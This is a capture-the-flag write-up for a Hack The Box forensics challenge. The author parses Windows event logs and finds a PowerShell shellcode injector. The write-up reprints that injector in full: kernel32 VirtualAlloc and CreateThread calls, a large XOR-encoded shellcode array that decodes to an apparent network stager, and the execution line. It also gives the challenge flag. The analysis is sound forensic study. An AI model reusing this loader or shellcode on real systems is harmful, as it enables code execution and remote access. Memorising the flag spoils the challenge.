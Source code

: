 # Puppeteer

## Challenge info

Planet Longhir is known for it's top-tier researchers. Due to their dedication in science and engineering, their military equipment is the most advanced one in the galaxy. In fact, the prototype DES-3000, a self-propelled precision-strike missile that is capable of reaching targets even in Ratnik galaxy, is being used to disable Galactic Federation's communication satellites. The mystery that Miyuki is trying to solve is, how the satellite's location was leaked since it is a top-sercret that only Galactic Federation's council is aware of. Help her analyse the Council's HQ event logs and solve this mystery.

This chall existed as a ton of EVTX files to hunt through for clues on how info was leaked.

Ended up using a utility called evtxexport to read these files and dump the output quickly and parse for clues.

```
apt install libevtx-utils -y
```

Ran evtxexport --help to get a list of the commands:

```
evtxexport 20181227

Missing source file.
Use evtxexport to export items stored in a Windows XML Event Viewer
Log (EVTX) file.

Usage: evtxexport [ -c codepage ] [ -f format ] [ -l log_file ]
                  [ -m mode ] [ -p resource_files_path ]
                  [ -r registy_files_path ] [ -s system_file ]
                  [ -S software_file ] [ -t event_log_type ]
                  [ -hTvV ] source

	source: the source file

	-c:     codepage of ASCII strings, options: ascii, windows-874,
	        windows-932, windows-936, windows-949, windows-950,
	        windows-1250, windows-1251, windows-1252 (default),
	        windows-1253, windows-1254, windows-1255, windows-1256
	        windows-1257 or windows-1258
	-f:     output format, options: xml, text (default)
	-h:     shows this help
	-l:     logs information about the exported items
	-m:     export mode, option: all, items (default), recovered
	        'all' exports the (allocated) items and recovered items,
	        'items' exports the (allocated) items and 'recovered' exports
	        the recovered items
	-p:     search PATH for the resource files
	-r:     name of the directory containing the SOFTWARE and SYSTEM
	        (Windows) Registry file
	-s:     filename of the SYSTEM (Windows) Registry file.
	        This option overrides the path provided by -r
	-S:     filename of the SOFTWARE (Windows) Registry file.
	        This option overrides the path provided by -r
	-t:     event log type, options: application, security, system
	        if not specified the event log type is determined based
	        on the filename.
	-T:     use event template definitions to parse the event record data
	-v:     verbose output to stderr
	-V:     print version
```

Ended up dumping all event logs to disk into parsable txt files quickly with grep:

```
ls *.evtx | while read ln ; do echo  -------- $ln --------------------------- ; evtxexport $ln >$ln.txt ; done
```

Did a bit of grep looking for a few things, with `cat *.txt | grep $searchterm -A30 -B45` to output lots of code Before and After, basically around my search items.  Needed to look more closely though as I am seeing a lot.


Started going thru them manually w/ less until I found some interesting stuff in the Powershell logs.

@15:40:31 : powershell process injector found:

## payload.ps1

Looks like some malicious stuff here:

```
Microsoft-Windows-PowerShell%4Operational.evtx.txt-String: 3			: $OleSPrlmhB = @"
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[DllImport("kernel32.dll")]
Microsoft-Windows-PowerShell%4Operational.evtx.txt-public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[DllImport("kernel32.dll")]
Microsoft-Windows-PowerShell%4Operational.evtx.txt-public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-"@
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[byte[]] $stage1 = 0x99, 0x85, 0x93, 0xaa, 0xb3, 0xe2, 0xa6, 0xb9, 0xe5, 0xa3, 0xe2, 0x8e, 0xe1, 0xb7, 0x8e, 0xa5, 0xb9, 0xe2, 0x8e, 0xb3;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[byte[]] $stage2 = 0xac, 0xff, 0xff, 0xff, 0xe2, 0xb2, 0xe0, 0xa5, 0xa2, 0xa4, 0xbb, 0x8e, 0xb7, 0xe1, 0x8e, 0xe4, 0xa5, 0xe1, 0xe1;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$tNZvQCljVk = Add-Type -memberDefinition $OleSPrlmhB -Name "Win32" -namespace Win32Functions -passthru;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[Byte[]] $HVOASfFuNSxRXR = 0x2d,0x99,0x52,0x35,0x21,0x39,0x1d,0xd1,0xd1,0xd1,0x90,0x80,0x90,0x81,0x83,0x99,0xe0,0x03,0xb4,0x99,0x5a,0x83,0xb1,0x99,0x5a,0x83,0xc9,0x80,0x87,0x99,0x5a,0x83,0xf1,0x99,0xde,0x66,0x9b,0x9b,0x9c,0xe0,0x18,0x99,0x5a,0xa3,0x81,0x99,0xe0,0x11,0x7d,0xed,0xb0,0xad,0xd3,0xfd,0xf1,0x90,0x10,0x18,0xdc,0x90,0xd0,0x10,0x33,0x3c,0x83,0x99,0x5a,0x83,0xf1,0x90,0x80,0x5a,0x93,0xed,0x99,0xd0,0x01,0xb7,0x50,0xa9,0xc9,0xda,0xd3,0xde,0x54,0xa3,0xd1,0xd1,0xd1,0x5a,0x51,0x59,0xd1,0xd1,0xd1,0x99,0x54,0x11,0xa5,0xb6,0x99,0xd0,0x01,0x5a,0x99,0xc9,0x81,0x95,0x5a,0x91,0xf1,0x98,0xd0,0x01,0x32,0x87,0x99,0x2e,0x18,0x9c,0xe0,0x18,0x90,0x5a,0xe5,0x59,0x99,0xd0,0x07,0x99,0xe0,0x11,0x90,0x10,0x18,0xdc,0x7d,0x90,0xd0,0x10,0xe9,0x31,0xa4,0x20,0x9d,0xd2,0x9d,0xf5,0xd9,0x94,0xe8,0x00,0xa4,0x09,0x89,0x95,0x5a,0x91,0xf5,0x98,0xd0,0x01,0xb7,0x90,0x5a,0xdd,0x99,0x95,0x5a,0x91,0xcd,0x98,0xd0,0x01,0x90,0x5a,0xd5,0x59,0x90,0x89,0x90,0x89,0x8f,0x88,0x99,0xd0,0x01,0x8b,0x90,0x89,0x90,0x88,0x90,0x8b,0x99,0x52,0x3d,0xf1,0x90,0x83,0x2e,0x31,0x89,0x90,0x88,0x8b,0x99,0x5a,0xc3,0x38,0x9a,0x2e,0x2e,0x2e,0x8c,0x98,0x6f,0xa6,0xa2,0xe3,0x8e,0xe2,0xe3,0xd1,0xd1,0x90,0x87,0x98,0x58,0x37,0x99,0x50,0x3d,0x71,0xd0,0xd1,0xd1,0x98,0x58,0x34,0x98,0x6d,0xd3,0xd1,0xd4,0xe8,0x11,0x79,0xd1,0xc3,0x90,0x85,0x98,0x58,0x35,0x9d,0x58,0x20,0x90,0x6b,0x9d,0xa6,0xf7,0xd6,0x2e,0x04,0x9d,0x58,0x3b,0xb9,0xd0,0xd0,0xd1,0xd1,0x88,0x90,0x6b,0xf8,0x51,0xba,0xd1,0x2e,0x04,0xbb,0xdb,0x90,0x8f,0x81,0x81,0x9c,0xe0,0x18,0x9c,0xe0,0x11,0x99,0x2e,0x11,0x99,0x58,0x13,0x99,0x2e,0x11,0x99,0x58,0x10,0x90,0x6b,0x3b,0xde,0x0e,0x31,0x2e,0x04,0x99,0x58,0x16,0xbb,0xc1,0x90,0x89,0x9d,0x58,0x33,0x99,0x58,0x28,0x90,0x6b,0x48,0x74,0xa5,0xb0,0x2e,0x04,0x54,0x11,0xa5,0xdb,0x98,0x2e,0x1f,0xa4,0x34,0x39,0x42,0xd1,0xd1,0xd1,0x99,0x52,0x3d,0xc1,0x99,0x58,0x33,0x9c,0xe0,0x18,0xbb,0xd5,0x90,0x89,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xaf,0x84,0x99,0x52,0x15,0xf1,0x8f,0x58,0x27,0xbb,0x91,0x90,0x88,0xb9,0xd1,0xc1,0xd1,0xd1,0x90,0x89,0x99,0x58,0x23,0x99,0xe0,0x18,0x90,0x6b,0x89,0x75,0x82,0x34,0x2e,0x04,0x99,0x58,0x12,0x98,0x58,0x16,0x9c,0xe0,0x18,0x98,0x58,0x21,0x99,0x58,0x0b,0x99,0x58,0x28,0x90,0x6b,0xd3,0x08,0x19,0x8e,0x2e,0x04,0x52,0x29,0xd1,0xac,0xf9,0x89,0x90,0x86,0x88,0xb9,0xd1,0x91,0xd1,0xd1,0x90,0x89,0xbb,0xd1,0x8b,0x90,0x6b,0xda,0xfe,0xde,0xe1,0x2e,0x04,0x86,0x88,0x90,0x6b,0xa4,0xbf,0x9c,0xb0,0x2e,0x04,0x98,0x2e,0x1f,0x38,0xed,0x2e,0x2e,0x2e,0x99,0xd0,0x12,0x99,0xf8,0x17,0x99,0x54,0x27,0xa4,0x65,0x90,0x2e,0x36,0x89,0xbb,0xd1,0x88,0x98,0x16,0x13,0x21,0x64,0x73,0x87,0x2e,0x04;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[array]::Reverse($stage2);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$hRffYLENA = $tNZvQCljVk::VirtualAlloc(0,[Math]::Max($HVOASfFuNSxRXR.Length,0x1000),0x3000,0x40);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$stage3 = $stage1 + $stage2;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-# Unpack Shellcode;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
Microsoft-Windows-PowerShell%4Operational.evtx.txt-{
Microsoft-Windows-PowerShell%4Operational.evtx.txt-    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-}
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-#Unpack Special Orders!
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-for($i=0;$i -lt $stage3.count;$i++){
Microsoft-Windows-PowerShell%4Operational.evtx.txt-    $stage3[$i] = $stage3[$i] -bxor 0xd1;
Microsoft-Windows-PowerShell%4Operational.evtx.txt-}
Microsoft-Windows-PowerShell%4Operational.evtx.txt-
Microsoft-Windows-PowerShell%4Operational.evtx.txt-$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);
```

Had to figure out how to decode. Not too hard honestly.. Finally got it, commented out the baddies and outputted some things, had to play with the format a little but I use powershell a lot so this wasn't bad for me.

```
[..]

#[System.Runtime.InteropServices.Marshal]::Copy($HVOASfFuNSxRXR,0,$hRffYLENA,$HVOASfFuNSxRXR.Length);


# Unpack Shellcode

for($i=0; $i -lt $HVOASfFuNSxRXR.count ; $i++)
{
    $HVOASfFuNSxRXR[$i] = $HVOASfFuNSxRXR[$i] -bxor 0xd1;
}

#Unpack Special Orders!

for($i=0;$i -lt $stage3.count;$i++){
    $stage3[$i] = $stage3[$i] -bxor 0xd1;
}

write-output "`r`n`r`n"
write-output "stage3:"
foreach ($c in $stage3) {
  $chr=[char][int]$c
  write-host -NoNewLine $chr
}

write-output "`r`n`r`n"
write-output "HVOASfFuNSxRXR:"
foreach ($c in $HVOASfFuNSxRXR) {
  $chr=[char][int]$c
  write-host -NoNewLine $chr

}

#$tNZvQCljVk::CreateThread(0,0,$hRffYLENA,0,0,0);
```


Cool! Ran it and:



## ./special_orders.ps1

```
stage3:
HTB{b3wh4r3_0f_th3_b00t5_0f_just1c3...}

HVOASfFuNSxRXR:
AÁâíRHR AQB<HÐfxR`HRQVHR H·JJM1ÉHrPH1À¬<a|, AÁÉ

rH
¬AÁ8àuñLLE9ÑuØXD@$IÐfAHÖH1ÀAÁÉ
                      HD@IÐAAXAX^YHÐZAXAYAZHì ARÿàXAYZHéKÿÿÿ]I¾ws2_32AVI	æHì I	åI¼9À¨ATI	äL	ñAºLw&ÿÕL	êhYAº)kÿÕj
A^PPM1ÉM1ÀHÿÀH	ÂHÿÀH	ÁAºêßàÿÕH	ÇjAXL	âH	ùAº¥taÿÕ
Àt
IÿÎuåèHìH	âM1ÉjAXH	ùAºÙÈ_ÿÕø~UHÄ ^	öj@AYhAXH	òH1ÉAºX¤SåÿÕH	ÃI	ÇM1ÉI	ðH	ÚH	ùAºÙÈ_ÿÕø}(XAWYh@AXjZAº
                                                                                                                                       /0ÿÕWYAºunMaÿÕIÿÎé<ÿÿÿHÃH)ÆH
öu´AÿçXjYIÇÂðµ¢VÿÕ

```
This one was not bad, maybe an hour or so? Fun and rewarding to find.
